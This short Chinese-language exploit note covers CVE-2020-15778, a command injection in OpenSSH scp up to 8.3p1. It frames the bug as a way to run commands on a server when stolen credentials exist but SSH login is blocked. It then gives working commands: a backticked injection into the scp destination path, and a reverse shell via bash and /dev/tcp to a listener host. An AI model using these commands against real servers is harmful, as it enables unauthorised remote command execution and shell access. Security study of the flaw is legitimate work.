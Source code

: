 （CVE-2020-15778）OpenSSH 命令注入漏洞
======================================

一、漏洞简介
------------

**实际环境中的利用方案以及场景：**对于用户来说，ssh被阻止，但authorized\_keys文件中的命令选项允许使用scp的情况。您可以绕过此限制并在远程服务器上执行命令。也就是说，实际中通过各种手段获取到了ssh的用户密码，但是不允许ssh连接，或者ip等各种限制，可以尝试此漏洞进行利用。

二、漏洞影响
------------

OpenSSH \<=8.3p1

三、复现过程
------------

### 命令执行

    scp 1.txt root@ip:'`touch /root/test2.txt`/root/12111.txt'

![11.png](resource/(CVE-2020-15778)OpenSSH命令注入漏洞/media/rId25.png)

### 反弹shell

    scp test.txt test@192.168.136.133:'`bash -i >& /dev/tcp/192.168.136.129/7777 0>&1`/tmp/test3.txt'

![10.png](resource/(CVE-2020-15778)OpenSSH命令注入漏洞/media/rId27.png)
